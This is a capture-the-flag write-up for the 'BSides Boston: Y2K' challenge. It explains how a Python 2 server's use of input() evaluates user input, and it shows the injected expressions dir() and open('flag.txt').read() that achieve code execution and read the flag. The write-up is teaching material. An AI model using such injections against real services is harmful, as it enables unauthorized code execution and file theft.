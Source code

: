 ```yaml
---
title: "BSides Boston: Y2K"
tags: [CTF, python]
---
```



# Challenge
Prompt:
![png](/images/bsides-writeups/y2k_prompt.png)

We are given a netcat command, and when we connect we get the prompt:

```
What year do YOU think the world will end?
```

We can give it an integer value and it spits it back:
```
Yeah! I agree with you! I also think the world will end in the year
1234
```

Providing a non-integer output throws an error:
```
Traceback (most recent call last):
  File "/home/challenge/server.py", line 4, in <module>
    end = input()
  File "<string>", line 1, in <module>
NameError: name 'a' is not defined
```

So we are dealing with a python script and it is trying to reference our input.
Lets give it a command!

```
What year do YOU think the world will end?
dir()
Yeah! I agree with you! I also think the world will end in the year
['__builtins__', '__doc__', '__file__', '__name__', '__package__']
```

We have code execution. Fantastic.
Let's see if we can read files...

```
What year do YOU think the world will end?
open('flag.txt').read()
Yeah! I agree with you! I also think the world will end in the year
flag{we_are_saved_from_py2_k}
```

